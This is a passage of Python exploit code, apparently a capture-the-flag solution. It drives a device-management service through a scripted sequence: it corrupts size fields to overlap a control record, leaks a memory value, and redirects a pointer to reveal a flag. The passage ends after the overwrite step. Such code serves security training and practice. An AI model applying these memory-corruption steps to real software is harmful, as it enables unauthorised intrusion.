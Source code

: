	flag_pattern = re.compile(b'Your flag: (.+)')

	def check_for_flag(message):
		result = flag_pattern.search(message)
		if (result):
			flag = result.group(1)
			print(''.join([format(a,'02x') for a in flag]))

	name_pattern = re.compile(b'^\d{1,2}\. (.*), ([^\n]*)',re.M)

	def probe_device(number):
		write(b'4')
		read_until(b'Enter number of device: ')
		write(number)
		device_info = read_until(b'Enter new name: ')
		result = name_pattern.search(device_info)
		device_name = result.group(1)
		device_key = result.group(2)
		# The act of reading values erases them, so write them back out.
		write(device_name)
		read_until(b'Enter new key: ')
		write(device_key)
		read_until(b'5. Exit\n')
		return device_name

	# We need three initial devices (0 thru 2) for this attack.
	connect_device(b'A',b'1')
	connect_device(b'B',b'2')
	connect_device(b'C',b'3')

	# Corrupt the size fields to prepare to overlap a control record.
	modify_device(b'0',b'AA\x09',b'')
	disconnect_device(b'0')
	connect_device(b'D',b'4')

	# Craft the overlap.
	control = bytearray(b'XXXXXX\x0bX\x02XXXXZZ\x00\x22\x93\x22\x02')

	# Read the value in 0x2192.
	control[13] = 0x92
	control[14] = 0x21
	modify_device(b'34',control,b'')
	data = probe_device(b'2')

	# Take aim.
	control[13] = (data[0] - 2) % 256
	if (data[0] - 2 < 0):
		control[14] = data[1] - 1
	else:
		control[14] = data[1]
	control[16] = 0x20
	modify_device(b'34',control,b'')
